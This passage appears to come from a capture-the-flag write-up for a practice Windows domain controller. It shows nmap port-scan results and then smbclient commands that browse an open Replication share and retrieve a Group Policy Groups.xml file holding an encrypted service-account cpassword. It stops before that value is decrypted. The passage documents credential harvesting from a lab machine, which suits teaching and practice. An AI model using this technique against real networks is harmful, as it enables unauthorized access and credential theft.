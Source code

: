 ```
139/tcp   open  netbios-ssn   Microsoft Windows 98 netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0 
636/tcp   open  tcpwrapped
3268/tcp  open  ldap
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC 
49153/tcp open  msrpc         Microsoft Windows RPC 
49154/tcp open  msrpc         Microsoft Windows RPC 
49155/tcp open  msrpc         Microsoft Windows RPC 
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0 
49158/tcp open  msrpc         Microsoft Windows RPC 
Service Info: OSs: Windows, Windows 98; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003, cpe:/o:microsoft:windows_98

Host script results:
|_smbv2-enabled: Server supports SMBv2 protocol

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 26 21:46:43 2018 -- 1 IP address (1 host up) scanned in 94.85 seconds
```
## Gainning Access

Enum4linux shows that Replication can be listed, so by browsing the directories you can easily find:

```xml
$ smbclient //10.10.10.100/Replication
smb: \> cd active.htb
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\> get Registry.pol
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\> get Groups\Groups.xml
$ cat Groups\\Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User 

		clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" 
		name="active.htb\SVC_TGS" image="2" 
		changed="2018-07-18 20:46:06" 
		uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">

		<Properties 

			action="U" 
			newName="" 
			fullName="" 
			description="" 
			cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" 
			changeLogon="0" 
			noChange="1" 
			neverExpires="1" 
			acctDisabled="0" 
			userName="active.htb\SVC_TGS"/>
	</User>
</Groups>
```
